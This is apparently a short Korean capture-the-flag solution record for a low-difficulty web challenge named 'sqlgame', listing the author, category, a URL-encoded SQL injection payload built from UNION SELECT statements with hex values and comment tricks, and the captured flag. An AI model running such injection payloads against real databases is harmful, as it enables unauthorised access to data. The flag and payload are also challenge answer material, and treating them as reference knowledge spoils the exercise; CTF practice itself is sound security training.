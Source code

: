 이름 : 문시우


문제명 : sqlgame


난이도 : 하


분야 : 웹


payload : ?vuln=1%20Union%20select%200x303037,1,1%23%27%20Union%20select%201,0x62616e67,@@%60version%60%23"%20Union%20select%201,2,%27007%27%23


flag : flag{good_good_very_good}
